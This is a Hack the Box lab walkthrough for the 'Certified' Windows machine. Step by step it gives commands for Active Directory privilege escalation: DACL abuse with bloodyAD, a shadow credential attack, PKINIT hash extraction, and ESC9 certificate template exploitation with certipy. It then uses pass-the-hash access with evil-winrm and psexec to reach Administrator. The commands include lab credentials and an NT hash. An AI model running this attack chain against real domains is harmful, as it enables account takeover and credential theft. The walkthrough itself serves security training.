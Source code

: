 # Certified

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse Active Directory DACLs 
- Successfully execute a shadow credential attack via Pywhisker
- Enumerate vulnerable certificate templates and exploit a ESC9 template misconfiguration using Certipy


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/3d450477-a74d-497b-b96d-dacf1a0f743d)

2. judith.mader has WriteOwner permissions on management group which has GenericWrite privs on management_svc account

![image](https://github.com/user-attachments/assets/9f75d80d-89af-40a5-9972-eb0ff164c551)

3. change owner of management group to judith

	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 set owner "Management" judith.mader```

4. then give GenericAll privs to judith
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add genericAll Management judith.mader```

5. then add judith to the management group
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader```

![image](https://github.com/user-attachments/assets/83e0b353-2b33-456e-be7e-4c4f9fd180cf)

6. now can run shadow credential attack on management_svc

	```python3 pywhisker.py -d certified.htb -u judith.mader -p judith09 -t management_svc -a add --dc-ip 10.129.130.180```

![image](https://github.com/user-attachments/assets/445020c8-2150-461e-ba74-1bd4d5fdaf5b)

7. use PKINIT tools to get TGT for management_svc. Got a clock skew error so fix clock skew and then run again
	
	```python3 gettgtpkinit.py -cert-pfx PFX_FILE -pfx-pass PFX_PASS certified.htb/management_svc -dc-ip 10.129.130.180 ccache```

![image](https://github.com/user-attachments/assets/0931b573-328f-4fd0-a0c3-2e4d937da20c)

8. Export ccache to KRB5CCNAME env var and use AS-REP encryption key from getting TGT to get NT hash of management_svc account using PKINIT tools getnthash.py

	```python3 getnthash.py -key AS_REP_KEY -dc-ip 10.129.130.180 certified.htb/management_svc```

![image](https://github.com/user-attachments/assets/98efc969-2c11-4b5c-8890-777a40922f7d)

9. Can evil-winrm into machine using management_svc hash

	```evil-winrm -i 10.129.130.180 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584```

![image](https://github.com/user-attachments/assets/55e2e59e-2f73-4870-a387-3dfd2e37a651)

10. Bloodhound shows management_svc has GenericAll privs on user ca_operator. Change ca_operator password
	```python3 /opt/bloodyAD/bloodyAD.py --dc-ip 10.129.131.108 -d certified.htb -u management_svc -p :a091c1832bcdd4677c28b5a6a1295584 set password ca_operator P@ssw0rd```
Success!

![image](https://github.com/user-attachments/assets/23415309-3f97-4fd2-9e6e-31b3feae8432)

11. Get list of certificate templates
	```certipy find -u ca_operator -p P@ssw0rd -dc-ip 10.129.131.108 -enabled```

![image](https://github.com/user-attachments/assets/2a9d2c0d-966e-4345-be32-68f88bfe1f85)

12. CertifiedAuthentication template has ESC9 vulnerability. To exploit ESC9 templates, set the upn of ca_operator to Administrator
	```certipy account update -username management_svc -hashes :[NT_HASH] -upn Administrator -dc-ip [IP] -user ca_operator```

![image](https://github.com/user-attachments/assets/a41bf04c-24bb-4163-9ed7-a19f9d89980a)

13. Request certificate with changed upn
	```certipy req -u ca_operator@certified.htb -p P@ssw0rd -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip [IP]```

![image](https://github.com/user-attachments/assets/ca644a51-0514-427b-9fcc-d164ff246b38)

14. Change back ca_operator upn to original
	```certipy account update -username management_svc -hashes :[NT_HASH] -upn ca_operator -dc-ip [IP] -user ca_operator```

![image](https://github.com/user-attachments/assets/92e33eb1-c3ca-47be-b0dd-7a2146995aa2)

15. Authenticate with admin certificate and get NT hash of Administrator
	```certipy auth -pfx administrator.pfx -domain certified.htb -dc-ip [IP]```

![image](https://github.com/user-attachments/assets/b1df9eeb-8584-433b-ad17-253920ba04ff)

16. Check administrator hash is correct using pass the hash
	```crackmapexec smb [IP] -u Administrator -H [HASH]```

![image](https://github.com/user-attachments/assets/34eab86c-32f0-413b-8bf5-d00b62a6feea)

17. Pwned! Psexec into machine and get root flag!
	```psexec.py Administrator@[IP] -hashes [HASH]```

![image](https://github.com/user-attachments/assets/c4549cc0-4fe6-427a-a6a7-cc077521e35d)









 
